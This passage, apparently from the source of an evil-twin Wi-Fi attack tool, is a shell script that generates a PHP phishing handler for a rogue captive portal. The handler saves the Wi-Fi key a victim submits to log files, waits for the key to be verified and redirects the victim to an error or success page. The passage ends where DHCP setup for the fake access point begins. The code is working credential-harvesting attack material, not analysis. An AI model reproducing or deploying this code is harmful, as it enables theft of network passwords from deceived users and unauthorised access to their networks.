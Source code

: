         # Creates PHP
        echo "<?php
error_reporting(0);

\$count_my_page = (\"$DUMP_PATH/hit.txt\");
\$hits = file(\$count_my_page);
\$hits[0] ++;
\$fp = fopen(\$count_my_page , \"w\");
fputs(\$fp , \$hits[0]);
fclose(\$fp);

// Receive form Post data and Saving it in variables
\$key1 = @\$_POST['key1'];

// Write the name of text file where data will be store
\$filename = \"$DUMP_PATH/data.txt\";
\$filename2 = \"$DUMP_PATH/status.txt\";
\$intento = \"$DUMP_PATH/intento\";
\$attemptlog = \"$DUMP_PATH/pwattempt.txt\";

// Marge all the variables with text in a single variable.
\$f_data= ''.\$key1.'';

\$pwlog = fopen(\$attemptlog, \"w\");
fwrite(\$pwlog, \$f_data);
fwrite(\$pwlog,\"\n\");
fclose(\$pwlog);

\$file = fopen(\$filename, \"w\");
fwrite(\$file, \$f_data);
fwrite(\$file,\"\n\");
fclose(\$file);

\$archivo = fopen(\$intento, \"w\");
fwrite(\$archivo,\"\n\");
fclose(\$archivo);

while( 1 ) {

        if (file_get_contents( \$intento ) == 1) {
                header(\"Location:error.html\");
                unlink(\$intento);
            break;
        }

        if (file_get_contents( \$intento ) == 2) {
                header(\"Location:final.html\");
                break;
        }

        sleep(1);
}
?>" > $DUMP_PATH/data/check.php

        # Config DHCP
        echo "authoritative;
